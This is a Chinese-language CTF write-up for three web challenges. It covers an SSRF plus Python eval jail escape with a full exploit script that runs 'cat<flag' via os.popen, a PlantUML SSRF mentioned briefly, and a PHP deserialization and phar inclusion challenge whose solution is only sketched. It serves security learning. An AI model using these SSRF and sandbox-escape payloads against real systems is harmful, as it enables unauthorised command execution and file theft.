




# 【check_in】
```python
'''
I wish you a good head start.
flag is in file namely 'flag' in the same directory as this file.

Good luck!
'''

import re
import flask
import requests
import ipaddress
from urllib.parse import urlparse

GENERAL_WAF_REGEX = r'[a-zA-Z0-9_\[\]{}()<>,.!@#$^&*]{3}' # only two of these characters ;)

app = flask.Flask(__name__)

def general_waf(code):
    # Why do you need so many characters?
    if re.findall(GENERAL_WAF_REGEX, code):
        return True
    else:
        return False

def check_hostname(url):
    # must starts with vnctf.
    if not url.startswith('http://vnctf.'):
        return False

    hostname = urlparse(url).hostname
    query = urlparse(url).query

    # must only contain two of the restricted characters
    if general_waf(query):
        return False

    # must not be an ip address, so no 127.0.0.1 or ::1
    try:
        ipaddress.ip_address(hostname)
        return False
    except ValueError:
        pass

    return url

@app.route('/')
def index():
    return 'Welcome to MINI VNCTF 2025!'

@app.route('/fetch')
def fetch():
    url = flask.request.args.get('url')
    safe_url = check_hostname(url)
    if safe_url:
        try:
            response = requests.get(safe_url, allow_redirects=False) # no redirects
            return response.text
        except:
            return 'Error'
    else:
        return 'Invalid URL'

@app.route('/__internal/safe_eval')
def safe_eval():
    # check if the request is from the internal network
    if flask.request.remote_addr not in ['127.0.0.1', '::1']:
        return 'Forbidden'

    code = flask.request.args.get('hi')

    if len(code) >= 24 * 10 + 8 * 8:
        # Man! What can I say. 
        return 'Invalid code'

    # Ah, if you get here, then your final challenge is to break this jail.
    # Try it. Not as hard as it seems ;)
    blacklist = ['\\x','+','join', '"', "'", '[', ']', '2', '3', '4', '5', '6', '7', '8', '9']
    for i in blacklist:
        if i in code:
            return 'Invalid code'
    
    safe_globals = {'__builtins__':None, 'lit':list, 'dic':dict}

    return repr(eval(code, safe_globals))

if __name__ == '__main__':
    app.run(debug=False, host='0.0.0.0', port=8080)


```
给了源码，我们大致的看一下功能。
* 一个`/`路由就是一个欢迎页面。
* `/fetch`路由
```python
  @app.route('/fetch')
def fetch():
    url = flask.request.args.get('url')
    safe_url = check_hostname(url)
    if safe_url:
        try:
            response = requests.get(safe_url, allow_redirects=False) # no redirects
            return response.text
        except:
            return 'Error'
    else:
        return 'Invalid URL'
  ```
  接受`get`传的参数`url`，经过check函数之后会向后面指定的`url`发送`get`请求。
  * `check_hostname`函数
  ```python
  def check_hostname(url):
    # must starts with vnctf.
    if not url.startswith('http://vnctf.'):
        return False

    hostname = urlparse(url).hostname
    query = urlparse(url).query

    # must only contain two of the restricted characters
    if general_waf(query):
        return False

    # must not be an ip address, so no 127.0.0.1 or ::1
    try:
        ipaddress.ip_address(hostname)
        return False
    except ValueError:
        pass

    return url
  
  ```
  检查是否`http://vnctf.`开头，并分割`hostname`主机、`query`?后面的参数。
  所以这里？后面的参数不能含有黑名单中的字符。最后还会检查传入的是不是真正的IP，是的话就Flase了。
  通过上面的检查后服务器就会向合法的url发送请求。很明显应该是打ssrf。我们继续看。
  * `/__internal/safe_eval`路由
  ```python
  @app.route('/__internal/safe_eval')
def safe_eval():
    # check if the request is from the internal network
    if flask.request.remote_addr not in ['127.0.0.1', '::1']:
        return 'Forbidden'

    code = flask.request.args.get('hi')

    if len(code) >= 24 * 10 + 8 * 8:
        # Man! What can I say.
        return 'Invalid code'

    # Ah, if you get here, then your final challenge is to break this jail.
    # Try it. Not as hard as it seems ;)
    blacklist = ['\\x','+','join', '"', "'", '[', ']', '2', '3', '4', '5', '6', '7', '8', '9']
    for i in blacklist:
        if i in code:
            return 'Invalid code'

    safe_globals = {'__builtins__':None, 'lit':list, 'dic':dict}

    return repr(eval(code, safe_globals))
  ```
  首先请求必须来自本地才能访问这里，（更加确定是ssrf）
  然后长度不能大于`24 * 10 + 8 * 8=304`
  最后经过一个黑名单检测会进入到eval（很明显的沙箱逃逸）
  ```python
  safe_globals = {'__builtins__':None, 'lit':list, 'dic':dict}

    return repr(eval(code, safe_globals))
  ```
  去掉了`__builtins__`模块，给了我没`list`和`dict`对象
## 绕过
1. 获得本地身份，要走到沙箱逃逸要先打通ssrf，`http://vnctf.`开头且不能被`ipaddress.ip_address(hostname)`解析成IP。我们想到用@连接，`/fetch?url=http://vnctf.@localhost:8080`，这样就满足了，并且http是支持这样写的。我们发现访问8080端口是欢迎页面，源代码中正是开在8080，那这里就是ssrf打通。
2. 绕过两个黑名单沙箱逃逸。首先第一个对url字符的过滤我们可以用`两次url编码`，因为waf规定3次出现黑名单字符则过滤，但是没有过滤`%`，url编码刚好是`%xx`,每处现两次黑名单字符就会打断，完美绕过。这里是因为ssrf要代理发一个包，所以我们要两次url编码。
3. 最后一个黑名单过滤的沙箱逃逸了。首先数字只有`0,1`所以肯定不是常规的利用`subclasses[x]`。我们这里利用`dic+lit`的"取键"操作来绕过了”，‘。
## exp
```python
import requests
import urllib.parse

TARGET_URL = "http://challenge.ilovectf.cn:30208/"

cmd_payload = (
    "lit(dic(cat=1)).pop()"           # "cat"
    ".__add__(lit.__base__.__str__(lit).__getitem__(0))" # "<"
    ".__add__(lit(dic(flag=1)).pop())" # "flag"
)

# 最终的 Payload 结构
payload = (
    # 1. 找到 os._wrap_close 类
    "lit(i for i in lit.__base__.__subclasses__()if lit(dic(wrap_close=1)).pop()in lit.__base__.__str__(i)).pop()"
    # 2. 初始化并获取 popen 函数
    ".__init__.__globals__.get(lit(dic(popen=1)).pop())"
    # 3. 执行命令 (cat<flag)
    f"({cmd_payload})"
    # 4. 读取结果
    ".read()"
)
print(f"[*] Payload 长度: {len(payload)} (限制 304)") # 检查长度，这很重要

# 1. 手动url编码
pass_1_encode = "".join(f"%{ord(c):02x}" for c in payload)
# 2. 双重编码 (% -> %25)
pass_2_encode = pass_1_encode.replace("%", "%25")

# 3. 拼接
full_url = f"{TARGET_URL}/fetch?url=http://vnctf.@localhost:8080/__internal/safe_eval?hi={pass_2_encode}"

# 4. 发送
res = requests.get(full_url)
print(f"\n[+]  执行结果:\n{res.text}")

```


# 【notebook】
首先简单的测了一下，发现好像都是前端？
试了一个xss，在这上面耗了很久，因为是在找不到其他的了，（但是这里都没有bot，还是太愚顿了）

后来看到题目提示：`plantuml？叽里咕噜说啥呢`
于是去查了一下，居然还是一种语法，有CVE漏洞：
https://forum.butian.net/share/2559
据文章所说PlantUML是一种开源的、用于绘制UML（Unified Modeling Language）图表的工具

大概就是通过特定的语法把我们的文字转化为图片。

然后就去想，这能在那里利用呢？题目不是笔记系统吗，很可能支持生成图表呀。
输入`/`,查看功能，果然 代码绘图。看到胜利的希望了

我们输入文章中的POC，生成图表
得到提示，八九不离十了，打一波ssrf，换成提示中的路径，成功！


# 【法尔plus】
进来可以拿到源码,还一个是phpinfo界面
```php
<?php
highlight_file(__FILE__);

function waf($data){
    if (is_array($data)){
        die("nonono arrays");
    }
    if (preg_match('/<\?|__HALT_COMPILER|get|Coral|Nimbus|Zephyr|Acheron|ctor|payload|php|filter|base64|rot13|read|data/i', $data)) {
        die("You can't do");
    }
}

class ddd{
    public $pivot;

    public function __set($k, $value) {
        $k = $this->pivot->ctor;
        echo new $k($value);
    }
}

class ccc{
    public $handle;
    public $ctor;

    public function __destruct() {
        return $this->handle();
    }
    public function __call($name, $arg){
        $arg[1] = $this->handle->$name;
    }
}

class bbb{
    public $target;
    public $payload;
    public function __get($prop)
    {
        $this->target->$prop = $this->payload;
    }
}

class aaa {
    public $mode;

    public function __destruct(){
        $data = $_POST[0];
        if ($this->mode == 'w') {
            waf($data);
            echo $data;
            $filename = "/var/www/html/".md5(rand()).".phar";
            file_put_contents($filename, $data);
            echo $filename;
        } else if ($this->mode == 'r') {
            waf($data);
            $f = include($data);
            if($f){
                echo "yesyesyes";
            }
            else{
                echo "You can look at the others";
            }
        }
    }
}

if(strlen($_POST[1]) < 52) {
    $a = unserialize($_POST[1]);
}
else{
    echo "too long!!";
}

?>
```
看到黑名单里的东西，感觉是打phar文件包含/反序列化。
看到题目主要的逻辑点就是，最后有反序列化的点
我们POST传入`0,1`两个参数，`1`会被反序列化，`0`会被写入文件或者包含，至于是包含还是上传，取决于反序列化出来的对象中`$aaa -> mode`
另外上传和包含之前，内容要先经过waf不能包含有指定字符串。我先想到了phar包含
1. 上传一个phar文件，里面写入test.txt，有php代码，
2. 利用phar伪协议包含文件
